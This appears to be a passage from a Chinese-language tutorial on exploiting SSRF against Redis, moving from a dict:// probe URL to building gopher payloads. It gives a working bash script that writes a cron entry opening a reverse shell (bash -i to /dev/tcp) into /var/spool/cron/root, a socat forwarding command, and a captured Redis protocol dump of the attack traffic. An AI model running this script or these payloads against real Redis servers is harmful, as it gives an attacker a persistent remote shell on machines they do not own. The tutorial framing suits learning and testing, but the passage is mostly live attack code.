 此时，再使用dict协议已经不成功。

```bash
http://sec.com:8082/sec/ssrf2.php?url=dict://127.0.0.1:6379/info
```

## 三、如何转换成gopher协议

刚一开始看到这个协议，不知道如何转换。希望写点经验给大家，有不对的地方，还望指出。

### 3.1 redis反弹shell

先写一个redis反弹shell的bash脚本如下：
我不喜欢用flushall，太不友好。

```bash
echo -e "\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
```

该代码很简单，在redis的第0个数据库中添加key为1，value为`\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n\n\n\n`的字段。最后会多出一个n是因为echo重定向最后会自带一个换行符。

执行脚本命令：

```bash
bash shell.sh 127.0.0.1 6379
```

想获取Redis攻击的TCP数据包，可以使用socat进行端口转发。转发命令如下：

```bash
socat -v tcp-listen:4444,fork tcp-connect:localhost:6379
```

意思是将本地的4444端口转发到本地的6379端口。访问该服务器的4444端口，访问的其实是该服务器的6379端口。

执行脚本

```bash
bash shell.sh 127.0.0.1 4444
```

捕获到数据如下：

```
> 2017/10/11 01:24:52.432446  length=85 from=0 to=84
*3\r
$3\r
set\r
$1\r
1\r
$58\r



*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1



\r
< 2017/10/11 01:24:52.432685  length=5 from=0 to=4
+OK\r
> 2017/10/11 01:24:52.435153  length=57 from=0 to=56
*4\r
$6\r
config\r
```